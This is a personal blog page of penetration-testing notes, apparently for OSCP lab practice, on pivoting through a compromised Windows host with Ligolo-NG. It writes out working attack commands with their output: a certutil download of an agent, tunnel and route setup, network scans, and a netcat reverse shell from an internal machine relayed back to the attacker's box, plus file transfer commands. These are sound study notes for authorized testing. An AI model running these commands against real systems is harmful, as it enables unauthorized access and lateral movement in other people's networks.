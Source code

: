 <h2 class="menu-header" id="main">
<a href="https://github.com/Mithlonde/Mithlonde">Root</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/blog/index.md">~/Blog</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/projects/index.md">Projects</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/all-writeups.md">Writeups</a>&#xA0;&#xA0;&#xA0;
</h2>

# 👾 Mithlonde
└─$ cat blog/tunneling.md

[Kali] <----> [**Pivot Box/MS01**] <----> [Internal Boxes/MS02/DC01]

# Network Pivoting with Ligolo-NG:
In this video, Gonski Cyber shows how you can use Ligolo-NG to setup simple network pivots for use in your OSCP prep and use Ligolo's handy listener functionality to transfer files and receive reverse shell connections from machines on internal networks! 
- https://www.youtube.com/watch?v=DM1B8S80EvQ

I think by design. In order to get revshell connections and initiate file transfers from MS02 (when you are pivoting through MS01) it requires a reverse port forward. Ligolo-NG has great functionality that makes this really easy.

So if we find ourselves in a situation where we have a pivot setup to the internal network, but the internal machine can't send back a shell to our attack box, we can use ligolo's TCP listeners to get our shell back on our kali box!

Here's an excerpt from my notes on this.

We need:
- Ligolo proxy file for our kali machine
- Ligolo agent file for our pivot/jump host (download this to target)
-> Precompiled binaries (Windows/Linux/macOS) are available on the [Release page](https://github.com/nicocha30/ligolo-ng/releases).
use `tar xzg file.tar.gz`

```
# On Kali:
`sudo ip tuntap add user [your_username] mode tun ligolo`
`sudo ip link set ligolo up`
`sudo ./proxy -selfcert`
`Pythonserver`

# On MS01:
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
`certutil -urlcache -split -f http://kali:8000/agent.exe agent.exe`
`.\agent.exe -connect 192.168.45.154:11601 -ignore-cert`

    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ / 
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /  
        /____/                          /____/   

Made in France ♥ by @Nicocha30!

ligolo-ng » INFO[0338] Agent joined.                                 name="MS01\\Administrator@MS01" remote="192.168.235.147:65421"
ligolo-ng » `session`
? Specify a session : `1` - MS01\Administrator@MS01 - 192.168.235.147:65421
[Agent : MS01\Administrator@MS01] » `ifconfig`
┌───────────────────────────────────────────────┐
│ Interface 0                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ Ethernet0                      │
│ Hardware MAC │ 00:50:56:ba:33:16              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 192.168.235.147/24             │
└──────────────┴────────────────────────────────┘
┌───────────────────────────────────────────────┐
│ Interface 1                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ Ethernet1                      │
│ Hardware MAC │ 00:50:56:ba:9d:50              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ `10.10.125.147/24`             │
└──────────────┴────────────────────────────────┘
┌──────────────────────────────────────────────┐
│ Interface 2                                  │
├──────────────┬───────────────────────────────┤
│ Name         │ Loopback Pseudo-Interface 1   │
│ Hardware MAC │                               │
│ MTU          │ -1                            │
│ Flags        │ up|loopback|multicast|running │
│ IPv6 Address │ ::1/128                       │
│ IPv4 Address │ 127.0.0.1/8                   │
└──────────────┴───────────────────────────────┘

# From Kali: `sudo ip route add 10.10.125.0/24 dev ligolo`

# Back in Proxy:
[Agent : MS01\Administrator@MS01] » `session`
? Specify a session : `1`- MS01\Administrator@MS01 - 192.168.235.147:65421
[Agent : MS01\Administrator@MS01] » `start`
[Agent : MS01\Administrator@MS01] » INFO[0780] Starting tunnel to MS01\Administrator@MS01

# Back in Kali (if this can resolve it's working):
`NetExec smb 10.10.125.0/24`
SMB         10.10.125.147   445    MS01             [*] Windows 10.0 Build 19041 x64 (name:MS01) (domain:oscp.demo) (signing:False) (SMBv1:False)
SMB         10.10.125.146   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:oscp.demo) (signing:True) (SMBv1:False)
SMB         10.10.125.148   445    MS02             [*] Windows 10.0 Build 19041 x64 (name:MS02) (domain:oscp.demo) (signing:False) (SMBv1:False)

From our kali, we can now also scan for the top ports using the following command:
nmap -sT --top-ports=100 -T4 -Pn -PE $IP

# Add listerener
# Back in Proxy
[Agent : MS01\Administrator@MS01] » listener_list
┌─────────────────────────────────────────────────────────────┐
│ Active listeners                                            │
├───┬───────┬────────────────────────┬────────────────────────┤
│ # │ AGENT │ AGENT LISTENER ADDRESS │ PROXY REDIRECT ADDRESS │
├───┼───────┼────────────────────────┼────────────────────────┤
└───┴───────┴────────────────────────┴────────────────────────┘
[Agent : MS01\Administrator@MS01] » `listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444`
INFO[1465] Listener created on remote agent!
[Agent : MS01\Administrator@MS01] » listener_list
┌───────────────────────────────────────────────────────────────────────────────┐
│ Active listeners                                                              │
├───┬─────────────────────────┬────────────────────────┬────────────────────────┤
│ # │ AGENT                   │ AGENT LISTENER ADDRESS │ PROXY REDIRECT ADDRESS │
├───┼─────────────────────────┼────────────────────────┼────────────────────────┤
│ 0 │ MS01\Administrator@MS01 │ 0.0.0.0:1234           │ 127.0.0.1:4444         │
└───┴─────────────────────────┴────────────────────────┴────────────────────────┘
(Any connection coming in on port 1234 on MS01 will be redirected to us on our localhost 4444)

Next, to have MS02 call back to us, we point any connection coming from MS02 to the MS01 `10.10.125.147/24` internal IP address and port `1234` 

# Example: 
# From MS02: `nc.exe 10.10.125.147 1234 -e cmd`
# On Kali: `rlwrap nc -lvnp 4444`
mithlonde@kali:~$ rlwrap nc -lnvp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 33684
Microsoft Windows [Version 10.0.19044.2251]
(c) Microsoft Corporation. All rights reserved.

c:\Users\Public>hostname
hostname
MS02

# Set up file transfer listener
# Back in Proxy
[Agent : MS01\Administrator@MS01] » listener_add --addr 0.0.0.0:1235 --to 127.0.0.1:80
INFO[2426] Listener created on remote agent!            
[Agent : MS01\Administrator@MS01] » listener_list
┌───────────────────────────────────────────────────────────────────────────────┐
│ Active listeners                                                              │
├───┬─────────────────────────┬────────────────────────┬────────────────────────┤
│ # │ AGENT                   │ AGENT LISTENER ADDRESS │ PROXY REDIRECT ADDRESS │
├───┼─────────────────────────┼────────────────────────┼────────────────────────┤
│ 0 │ MS01\Administrator@MS01 │ 0.0.0.0:1234           │ 127.0.0.1:4444         │
│ 1 │ MS01\Administrator@MS01 │ 0.0.0.0:1235           │ 127.0.0.1:80           │
└───┴─────────────────────────┴────────────────────────┴────────────────────────┘
(Any connection coming in on port 1235 on MS01 will be redirected to our Python HTTP Server on our localhost on port 80)

# To summarize
Reverse shells: MS02 -> MS01 on 10.10.125.147:1234 -> Kali:4444
   -> `nc.exe 10.10.125.147 1234 -e cmd`
   -> `rlwrap nc -lnvp 4444`
File transfers: MS02 -> MS01 on 10.10.125.147:1235 -> Kali:80
   -> `python3 -m http.server 80`
   -> `certutil -urlcache -split -f http://10.10.125.147:1235/nc.exe nc.exe`
   -> `python3 -m uploadserver 80`
   -> `curl -X POST http://10.10.125.147:1235/upload -F 'files=@uploadtest.php'`
   
# Cleaning up
[Agent : MS01\Administrator@MS01] » stop
[Agent : MS01\Administrator@MS01] » INFO[8371] Closing tunnel to MS01\Administrator@MS01...
[Agent : MS01\Administrator@MS01] » listener_list
┌───────────────────────────────────────────────────────────────────────────────┐
│ Active listeners                                                              │
├───┬─────────────────────────┬────────────────────────┬────────────────────────┤
│ # │ AGENT                   │ AGENT LISTENER ADDRESS │ PROXY REDIRECT ADDRESS │
├───┼─────────────────────────┼────────────────────────┼────────────────────────┤
│ 0 │ MS01\Administrator@MS01 │ 0.0.0.0:1234           │ 127.0.0.1:4444         │
│ 1 │ MS01\Administrator@MS01 │ 0.0.0.0:1235           │ 127.0.0.1:80           │
└───┴─────────────────────────┴────────────────────────┴────────────────────────┘
[Agent : MS01\Administrator@MS01] » listener_stop 1
INFO[8410] Listener closed.                             
[Agent : MS01\Administrator@MS01] » listener_stop 0
INFO[8412] Listener closed.
[Agent : MS01\Administrator@MS01] » listener_list
┌─────────────────────────────────────────────────────────────┐
│ Active listeners                                            │
├───┬───────┬────────────────────────┬────────────────────────┤
│ # │ AGENT │ AGENT LISTENER ADDRESS │ PROXY REDIRECT ADDRESS │
├───┼───────┼────────────────────────┼────────────────────────┤
└───┴───────┴────────────────────────┴────────────────────────┘
# From Kali:
sudo ip link set ligolo down
sudo ip tuntap delete mode tun ligolo
sudo ip route delete 10.10.125.0/24 dev ligolo
ip a && ip route
```
